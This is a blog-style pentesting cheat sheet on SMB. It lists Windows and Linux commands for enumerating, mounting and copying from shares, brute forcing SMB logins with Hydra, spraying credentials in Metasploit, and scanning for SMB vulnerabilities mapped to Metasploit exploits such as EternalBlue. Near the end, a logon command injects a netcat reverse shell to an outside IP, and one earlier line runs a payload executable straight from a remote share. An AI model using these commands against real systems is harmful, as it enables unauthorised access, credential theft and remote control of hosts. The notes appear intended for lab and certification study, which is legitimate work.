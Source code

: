 ```yaml
---
layout: post
title: 'Working With SMB'
date: '2022-05-21'
description: 'A look at interacting with SMB Shares using the Windows Command line and using various tools available within Kali Linux.'
coverimage: Working_With_SMB.jpg
tags: hydra mount nmblookup
published: true
posttype: article
categories: article
---
```

## Working with SMB

### Windows

Windows commands for working with our share

```
net use \\10.1.1.99\IPC$ /user:evilsmb
net view 10.1.1.99
dir \\10.1.1.99\evilshare
copy \\10.1.1.99\evilshare\29.jpg mypic.jpg
```

Anonymous shares can be viewed without authenticating to the IPC$ share.

```
net view 10.1.1.99
```

Mount a share

```
net use Y \\10.1.1.99\myshare  /user:eviltest
cd /d Y:\
dir
```

Executing files from SMB. Because of the way Windows treats UNC paths, it’s possible to just execute our binary directly from the SMB share without even needing to copy it over first. Just run the executable as if it were already local and the payload will fire:

```
C:\Users\evilsaint\Desktop> \\10.1.1.254\sharefolder\payload.exe
```

### Linux

Listing SMB shares with username and password
```
smbclient -L 10.1.1.99 -U username%password
```

Listing SMB Shares with anonymous connection
```
smbclient -N -L 10.1.1.99
```

Connecting to SMB Share with username and password
```
smbclient //10.1.1.99/myshare -U eviltest%evilpass
```

Connecting to SMB Share without username and password
```
smbclient //10.1.1.99/myshare
```

# SMB

### SMB Shares

List Shares of computers in Domain
```
Get-NetComputer -DomainController 172.20.50.254 | Get-NetShare
```

# Bruteforcing SMB with Hydra

Comma seperated username and passwords
```
hydra -v -V -C user-pass.txt 10.1.18.2 smb
```

not using comma separated
```
hydra -L users.txt -e ns 172.24.2.97 smb
```

# SMB

## NetBIOS

Find all hosts responding to netbios, the `q` supresses the headers
```
nbtscan -q 10.11.1.0\24
```

Look at more detail for a single host either by IP or hostname
```
nmblookup -A 10.50.1.254
nmblookup -S DC01
```

## Crackmapexec

```
crackmapexec smb 10.50.1.0\24
```

## NMAP

Run all Nmap SMB Checks

```
nmap -sS -p 445 -n --open --script=smb-vuln* <ip>
```

Exploit vulnerabilities with metasploit

| Vulnerability | Metasploit Module |
| --- | --- |
| smb-vuln-ms06-025  | exploit06_025_rasmans_reg |
| smb-vuln-ms07-029  | exploit07_029_msdns_zonename |
| smb-vuln-ms08-067  | exploit08_067_netapi |
| smb-vuln-cve2009-3103  | exploit09_050_smb2_negotiate_func_index |
| smb-vuln-ms17-010 | exploit17_010_eternalblue |

## SMB login (spray credentials)

```
msf > use auxiliary/scanner/smb/smb_login
show options
verbose off
set password to the obtained local admin password
remove user as pass
```

## Enum4linux

Enumerate SMB

```
enum4linux -a -u Administrator -p Passw0rd! 10.50.1.15
```

## SMB Client

Listing SMB shares with username and password
```
smbclient -L 10.1.1.99 -U username%password
```

Listing SMB Shares with anonymous connection
```
smbclient -N -L 10.1.1.99
```

Connecting to SMB Share with username and password
```
smbclient //10.1.1.99/myshare -U eviltest%evilpass
```

Connecting to SMB Share without username and password
```
smbclient //10.1.1.99/myshare
```

We can use smbclient over proxychains
```
proxychains smbclient '//192.168.1.230/myshare' -U 'MARVEL.LAB\Administrator%password123!'
```

We can tar up files or folders with smbclient
```
smbclient //10.129.121.21/guest -Tc test.tar secret.txt
smbclient //10.129.121.21/guest -Tc test.tar /tmp
```

## Mount Share

Mount SMB Share
```
mount -t  \\X.X.X.X\c$ \mnt\remote\ -o username=user,password=pass,rw
```

To get a shell back from an SMB share.
```
logon "\=`nc 10.11.0.233 443 -e \bin\bash`"
```

## SMBMap

Not very stealthy but can execute a command
```
python /usr/share/smbmap/smbmap.py -H 127.0.0.1 -u user -p pass -x 'net group "domain admins" \domain'
```

## SMBTree

SMB Tree can map out all smb shares in the neighbourhood.
```
smbtree
```